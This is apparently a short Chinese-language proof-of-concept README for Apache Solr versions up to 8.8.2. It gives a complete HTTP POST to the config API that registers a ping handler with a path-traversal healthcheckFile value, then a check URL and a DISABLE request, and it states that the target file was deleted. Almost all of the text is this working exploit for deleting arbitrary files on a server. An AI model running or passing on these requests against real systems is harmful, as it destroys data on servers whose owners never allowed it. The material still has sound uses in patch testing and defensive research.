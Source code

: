 影響版本
--------

    Apache Solr < = 8.8.2

POC
---

    POST /solr/db/config HTTP/1.1
    Host: 192.168.33.130:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-type:application/json
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 218
    {
      "add-requesthandler": {
        "name": "/testping",
        "class":"solr.PingRequestHandler",
        "defaults":{"echoParams":"explicit"},
        "healthcheckFile":"../../../../../../../../../../../../../aaa.txt",
      }
    }

檢查是否成功：

    http://target/solr/db/config/overlay?omitHeader=true

訪問

    http://target/solr/db/testping?action=DISABLE

文件已成功刪除